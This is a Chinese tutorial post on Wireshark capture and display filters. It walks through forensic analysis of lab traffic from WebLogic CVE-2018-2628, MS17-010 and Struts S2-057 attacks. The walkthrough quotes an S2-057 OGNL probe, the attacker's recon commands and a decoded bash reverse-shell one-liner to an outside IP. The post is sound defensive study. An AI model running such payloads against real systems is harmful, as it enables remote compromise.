wireshark使用
本文首发于雷神众测：
https://mp.weixin.qq.com/s/u04nDndGZFEFko9lRp6Frg
最近在HW，主要工作就是判断各个设备日志，分析数据包，对wireshark数据包分析不太熟悉，特此学习记录一下。本想再对主流扫描器和webshell管理工具抓包分析，但碍于篇幅和自己时间问题，没有再深入下去。这里主要挑选了weblogic反序列化，ms17_010，struts s2-057数据包进行实列分析。希望文章能对给位师傅有所帮助，文章中可能有很多不足和错误之处，还望各位师傅包含。
1.wireshark抓包
1.1选择监听网卡
捕获–>选项

我这里要查看我wlan的流量，所以选择wlan。
1.2 显示面板介绍

数据包列表：
不同的协议会显示不同的颜色，方便区分。
数据包详细信息：
frame:物理层的数据帧概况
ethernet:数据链路层以太网帧头部信息
internet protocol version 4:互联网层ip包头部信息
transmission control protocol：传输层T的数据段头部信息，此处是tcp
hypertext transfer protocol：应用层的信息，此处是http协议
16进制数据：
点击数据包详细信息数据区域的数据，在16进制数据区域中会显示对应的数据。个人理解数据包详细信息区是wireshark处理之后方便我们查看的数据包，而16进制数据包区域是实际在网络中传输的数据包。

2.过滤条件介绍
2.1协议过滤
tcp，icmp，http，udp…
单独输入只显示对应的协议数据包列表，列如：输入http

2.2 ip过滤
ip.src==120.241.148.154 显示源地址为120.241.148.154 的数据包列表
ip.dst==120.241.148.154 , 显示目标地址为120.241.148.154 的数据包列表
ip.addr == 120.241.148.154 显示源IP地址或目标IP地址为120.241.148.154的数据包列表

2.3 端口过滤
tcp.port ==80, 显示源主机或者目的主机端口为80的数据包列表。
tcp.srcport == 80, 只显示TCP协议的源主机端口为80的数据包列表。
tcp.dstport == 80，只显示TCP协议的目的主机端口为80的数据包列表。

2.4 http模式过滤
http.request.method==”GET”，只显示HTTP GET方法
http.request.method==”POST”

2.5 逻辑运算符 and/or/not
http.request.method==”POST” and ip.src==192.168.71.249
只显示192.168.71.249发送的post数据。

2.6 固定特征检索

选中要cookie（可以选择为恶意的payload）右击，作为过滤器应用–>选中
则只会显示cookie为选择值的数据包。

3.实列
3.1 Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）
docker搭建cve-2018-2628靶机，wireshar保存数据包分析。
docker地址：https://vulhub.org/#/environments/weblogic/CVE-2018-2628/
3.1.1查看恶意ip和受害ip的数据通信
1 | ip.src==192.168.80.1 and ip.dst==192.168.80.4 |

3.1.2 依次查看数据包
发现192.168.80.1想192.168.80.4发送了很多个2798长度的数据包，将数据包内容复制出来查看

鼠标右键点击数据包内容，选择 as printable text即可将数据包内容复制到剪切板，将数据包复制到文本编辑器查看

ysoserial.jar，touch /tmp/h11ba1.txt 可以大致确定攻击者使用了ysoserial工具进行了反序列化攻击，准备在服务器执行”touch /tmp/h11ba1.txt”命令。
3.2 ms17-010
3.2.1 确定攻击是否发生
1 | ip.addr==192.168.80.4 and ip.addr==192.168.80.8 and smb |
因为ms17-010主要通过smb端口，所以先看smb协议

发现192.168.80.4这个ip向192.168.80.8发送了大量的A字节。推测在进行溢出操作。所以确定发送ms17_010攻击
3.2.2 确定是否成功
继续查看数据包，发现数据包中含有session setup and request数据包，并且数据包中含有被攻击机器的准确域信息，说明攻击成功。

3.2.3 确定攻击者执行了那些命令
1 | ip.addr==192.168.80.4 and ip.addr==192.168.80.8 and tcp |
分析192.168.80.4与192.168.80.8之间传输的所有tcp数据流
从上往下依次查看，发现，被标黑的数据包中含有cmd命令行，重点查看标黑的数据流。并且可以确定攻击者通过4444端口来接收受害者的shell。

依次往下面查看，发现受害者192.168.80.8向攻击者192.168.80.4发送了自己的盘符信息。此时可以确定攻击者拥有了受害者cmd控制权。

依次往后面查看，发现攻击者执行了，whoami,ipconfig /all，net user /domain，dir等命令。并且受害者返回执行结果

鼠标右键点击—>选择as printable text，将数据包提取出来，复制到sublime中可以更清晰的查看

3.3 Struts2 S2-057 Remote Code Execution Vulnerablity(CVE-2018-11776)
struts s2-057主要通过GET请求发起攻击，只查看GET请求的数据
1 | http.request.method=="GET" |

3.3.1 poc验证漏洞
攻击者先采用poc:
1 | %7B(111+111)%7D/actionChain1.action |
探测是否存在struts s2-057漏洞，跟踪http流查看漏洞是否存在

表达式执行成功，说明该漏洞存在，接下来查看攻击者利用该漏洞做了什么
3.3.2 查看攻击者利用漏洞做了什么
查看最后一个http流，发现存在bash字样，跟踪http流查看

payload url解码：
1 | { |
发现攻击者在尝试反弹shell
paylaod中的base64字符串解码得到：
1 | bash -i >&/dev/tcp/106.14.190.93/2333 0>&1 |
说明攻击者想将shell反弹到106.14.190.93的2333端口
3.3.3 查看攻击者是否拿到shell，并执行了那些操作
已经确定反弹shell的vps，那么直接查看与该ip的数据流
1 | ip.addr==106.14.190.93 |

发现数据中存在服务器名，跟踪tcp流，发现攻击者执行了ls命令，并且执行成功。

参考链接：
 alipay
alipay